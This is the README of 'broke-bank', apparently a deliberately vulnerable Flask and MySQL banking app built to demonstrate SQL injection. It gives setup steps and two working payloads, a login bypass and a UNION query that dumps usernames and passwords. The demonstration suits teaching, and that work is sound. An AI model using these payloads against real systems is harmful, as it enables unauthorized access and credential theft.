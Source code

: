 # broke-bank
SQL injection demonstraction built with Flask and MySQL.

# Setup

## 1. Clone repository
```shell
git clone https://github.com/anilmawji/broke-bank.git; cd broke-bank
```

## 2. Create and activate virtual environment (optional, recommended)
   
macOS/Linux:
```shell
python -m venv .venv && source .venv/Scripts/activate
```
Windows:
```shell
python -m venv .venv && .venv\Scripts\activate
```

## 3. Install dependencies
```shell
pip install -r requirements.txt
```

## 4. Create .env file for environment variables (place in /broke-bank/)
```env
FLASK_ENV=development
FLASK_APP=main.py
MYSQL_USER=username_here
MYSQL_PASSWORD=password_here
```

## 5. Start server (local deployment)
```shell
flask run
```

# SQL Injection Examples

User login bypass (make sure to include the space at the end!)
```sql
a' or 1=1 -- 
```
![image](https://github.com/user-attachments/assets/5fdf6609-cd84-4420-9c48-b4b0744d09fa)

Transaction history search bar - SQL version and user info dump
```sql
3' union select null, user_id, version(), username, user_password from users;
```
![image](https://github.com/user-attachments/assets/4fc1abf2-d018-4dde-b240-09147835e81a)

